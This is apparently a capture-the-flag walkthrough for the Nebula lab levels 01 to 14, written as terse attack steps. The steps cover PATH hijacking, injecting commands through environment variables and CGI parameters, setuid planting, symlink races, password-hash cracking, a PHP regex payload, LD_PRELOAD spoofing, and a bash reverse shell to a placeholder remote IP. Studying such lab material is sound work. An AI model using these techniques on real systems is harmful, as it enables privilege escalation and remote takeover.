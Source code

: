 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create a `exploit.c` file (just copy from level01) in `/tmp`
* write a `run.sh` in `/home/flag03/writable.d`
```
run.sh
cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```

## Level04
* ln -s /home/flag04/token /tmp/exploit
* ./flag04 /tmp/exploit

## Level05
* tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C /tmp
* cd /tmp && ssh -i .ssh/id_rsa flag05@localhost

## Level06
* in `/etc/passwd` there is `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`
* save to to a file `crack.txt`
* `john crack.txt --show`
* result: flag06:hello:993:993::/home/flag06:/bin/sh

## Level07
* cd /tmp && wget http://localhost:7007/index.cgi?Host=%3Bgetflag
* cat index.cgi?Host=;getflag 

## Level08
* read the `capture.pcap` file, follow the TCP stream
* as `7f` is `del` thus we can get the password is `backd00Rmate`

## Level09
* check the php version `php -v` is 5.3.6
* so `preg_replace` function still vulnerable to "Pattern Modifiers"
* create a `/tmp/exploit.txt`
```
/tmp/exploit.txt
[email {${system(sh)}}]
```
* `./flag05 /tmp/exploit.txt`

## Level10
* I just know that I can use ssh to connect to box using ssh
* TOCTOU (Time of check, Time of use) 
* so here we can using the `/home/flag10/flag10` to send a file to a server port `18211` 
* `flag10` will first check if the file is readable and later sent the file to server
* so we just need fast enough to switch the file fast enough
* `echo "wrong token“ > /tmp/token`
* `while true; do ln -fs /tmp/token ~/token; ln -fs /home/flag10/token ~/token; done`
* `while true; do nc -lnp 18211; done` I did this on my local kali
* `while true; do /home/flag10/flag10 ~/token <ip>`

## Level11

## Level12
* hash function `io.popen` run shell
* `tenlet 127.0.0.1 50001`
* `Password: 1;bash -i >& /dev/tcp/[reverse ip]/[reverse port] 0>&1;echo 1`

## Level13
---
* gdb ./flag13
* break just before the cmp
* set $eax=0x3e8
* then we get token b705702b-76a8-42b0-8844-3adabbe5ac58

---
* create a fake uid file
```
fakeuid.c
#include <unistd.h>
#include <sys/types.h>

#define FAKEUID 1000
uid_t getuid(void){
    return FAKEUID;
}

gcc fakeuid.c -fPIC -shared -o ~/libfakeuid.so
export LD_PRELOAD="/home/level13/libfakeuid.so"
```
* run coped flag13 in `~` directory

## Level14
* decrypt from token
* `8457c118-887c-4e40-a5a6-33a25353165`
* just try the `./flag14 -e` and recognize the difference between input and output(the ord difference)
* then `su flag14` and input that decrypted token